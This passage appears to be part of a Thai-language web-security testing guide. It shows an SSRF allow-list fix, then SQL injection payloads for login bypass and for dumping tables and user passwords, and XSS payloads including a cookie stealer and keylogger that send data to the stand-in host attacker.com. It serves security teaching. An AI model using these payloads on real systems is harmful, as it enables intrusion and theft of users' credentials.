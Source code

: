 **วิธีแก้ไข:**
```javascript
const isAllowedUrl = (url) => {
  const allowList = [
    'api.example.com',
    'cdn.example.com'
  ];
  const parsedUrl = new URL(url);
  return allowList.includes(parsedUrl.hostname);
};

app.get('/fetch-data', async (req, res) => {
  const { url } = req.query;
  if (!isAllowedUrl(url)) {
    return res.status(403).json({ error: 'URL ไม่ได้รับอนุญาต' });
  }
  // ...fetch data...
});
```

## 🎯 การทดสอบแบบละเอียด

### 1. SQL Injection (ระดับความเสี่ยง: สูง)

#### ตัวอย่างการโจมตีแบบพื้นฐาน:
```sql
username: admin' --
password: อะไรก็ได้
```

#### ตัวอย่างการโจมตีแบบซับซ้อน:
```sql
# 1. ดึงข้อมูล version ของ SQLite:
username: ' UNION SELECT 1,sqlite_version(),3,4--

# 2. ดึงรายชื่อตารางทั้งหมด:
username: ' UNION SELECT 1,name,3,4 FROM sqlite_master WHERE type='table'--

# 3. ดึงข้อมูลผู้ใช้ทั้งหมดพร้อมรหัสผ่าน:
username: ' UNION SELECT id,username,password,role FROM users--
```

#### ผลกระทบ:
- เข้าถึงข้อมูลผู้ใช้ทั้งหมด
- แก้ไขหรือลบข้อมูลในฐานข้อมูล
- ยกระดับสิทธิ์เป็น admin

### 2. Cross-Site Scripting (XSS) (ระดับความเสี่ยง: ปานกลาง-สูง)

#### ตัวอย่างการโจมตี:
```javascript
// 1. การขโมย Cookie:
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>

// 2. การติดตั้ง Keylogger:
<script>
document.addEventListener('keyup', function(e) {
  fetch('https://attacker.com/keys?k='+e.key)
});
</script>

// 3. การปลอมแปลงหน้าเว็บ:
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white">
```